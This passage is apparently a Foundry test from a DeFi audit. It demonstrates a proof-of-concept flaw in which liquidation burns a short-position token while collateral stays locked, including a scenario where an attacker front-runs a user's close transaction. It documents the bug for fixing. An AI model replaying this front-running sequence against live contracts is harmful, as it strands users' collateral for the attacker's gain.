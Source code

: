 ```solidity
    function testLiquidateBurnsCollateral() public {
        // USER opens short position with amount = 1e18, collateral amount = 1e15
        uint256 shortAmount = 1e18;
        uint256 positionId = openShort(1e18, 1e15, USER);

        // Base asset price rises by 35%
        setAssetPrice(initialBaseAssetPrice * 135 / 100);

        // USER's entire short position is liquidatable
        assertEq(shortCollateral.maxLiquidatableDebt(positionId), shortAmount);

        // ATTACKER liquidates USER's entire short position
        vm.prank(ATTACKER);
        exchange.liquidate(positionId, shortAmount);

        // positionId has no remaining debt, but still holds some collateral
        (, uint256 remainingAmount, uint256 remainingCollateralAmount, ) = shortToken.shortPositions(positionId);
        assertEq(remainingAmount, 0);
        assertGt(remainingCollateralAmount, 0);

        // positionId is already burned (ie. ownerOf reverts with "NOT_MINTED")
        vm.expectRevert("NOT_MINTED");
        shortToken.ownerOf(positionId);
    }

    function testAttackerFrontrunLiquidateBurnsCollateral() public {
        // USER opens short position with amount = 1e18, collateral amount = 1e15
        uint256 shortAmount = 1e18;
        uint256 positionId = openShort(1e18, 1e15, USER);

        // Base asset price rises by 40%
        setAssetPrice(initialBaseAssetPrice * 140 / 100);

        // USER's short position is liquidatable
        assertEq(shortCollateral.maxLiquidatableDebt(positionId), shortAmount);

        // ATTACKER frontruns USER's closeTrade() transaction, liquidating 60% of USER's amount
        vm.prank(ATTACKER);
        exchange.liquidate(positionId, shortAmount * 60 / 100);

        // USER's closeTrade() transaction executes, reducing shortAmount by the remaining 40%
        closeShort(positionId, shortAmount * 40 / 100, 0, USER);

        // positionId has no remaining debt, but still holds some collateral
        (, uint256 remainingAmount, uint256 remainingCollateralAmount, ) = shortToken.shortPositions(positionId);
        assertEq(remainingAmount, 0);
        assertGt(remainingCollateralAmount, 0);

        // positionId is already burned (ie. ownerOf reverts with "NOT_MINTED")
        vm.expectRevert("NOT_MINTED");
        shortToken.ownerOf(positionId);
    }

    function openShort(
        uint256 amount,
        uint256 collateralAmount,
        address user
    ) internal returns (uint256 positionId) {
        Exchange.TradeParams memory tradeParams;
        tradeParams.amount = amount;
        tradeParams.collateral = address(SUSD);
```